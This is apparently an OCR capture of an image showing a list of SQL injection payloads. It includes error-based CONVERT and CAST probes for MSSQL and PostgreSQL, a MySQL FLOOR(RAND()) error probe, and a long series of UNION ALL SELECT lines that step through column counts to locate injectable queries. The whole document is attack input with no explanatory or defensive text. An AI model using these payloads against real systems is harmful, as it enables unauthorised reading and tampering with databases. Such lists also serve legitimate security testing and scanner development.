 ```
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
 AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
 UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
```